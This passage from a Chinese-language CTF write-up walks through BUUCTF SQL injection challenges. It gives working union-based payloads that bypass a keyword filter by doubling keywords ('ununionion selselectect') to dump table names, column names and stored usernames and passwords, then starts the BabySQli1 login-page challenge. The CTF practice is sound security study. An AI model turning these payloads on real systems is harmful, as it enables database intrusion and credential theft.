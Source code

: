 ![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732205168959-8a21606f-5d70-40dd-8560-46284a8662ff.png)

回显报错发现or where from被过滤了 需要双写绕过构建新的payload

```sql
1'  ununionion selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables whewherere table_schema=database() #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732205635674-0424f1bf-4ecd-4ae4-b31d-f31564119790.png)

得到数据库geek下有两张表分别为'b4bsql' 'geekuser' 根据题目名字flag大概率在b4bsql表中

构建payload爆字段名

```sql
1'  ununionion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns whewherere table_name='b4bsql' #
```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206002083-660fa353-d3e9-422a-bf09-0ec3180e8c91.png)

再构建payload爆出三个字段的值

```sql
1'  ununionion selselectect 1,2,group_concat(id) frfromom b4bsql #
1'  ununionion selselectect 1,2,group_concat(username) frfromom b4bsql #
1'  ununionion selselectect 1,2,group_concat(passwoorrd) frfromom b4bsql #  //or被过滤了所以要双写
```

爆出结果

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206164623-26730f76-0a08-4185-9b27-65f606345827.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206189845-fa05bd59-7641-42cc-967d-d48cbed0a148.png)

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206292570-ab77a2f5-f022-4b68-8cbc-5a6e0436ae07.png)

得到flag

## <font style="color:rgb(33, 37, 41);">BUUCTF [GXYCTF2019]BabySQli1</font>
![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206800171-3e1bbc04-c938-4557-9b41-565b748392d3.png)

还是以登录框为页面 尝试了 admin 加万能公式 发现没什么用 任何打开了源代码发现了一段密文

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206918899-eb910ad6-db93-40d3-aa7e-9dfabc928263.png)

经过base32加base64双重解密后发现了题目所给的提示 是一段sql语句

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1732206986555-0ded65bb-c975-4015-89ea-508de5b019e1.png)

发现是在username处存在注入点

试着判断字段存放的位置
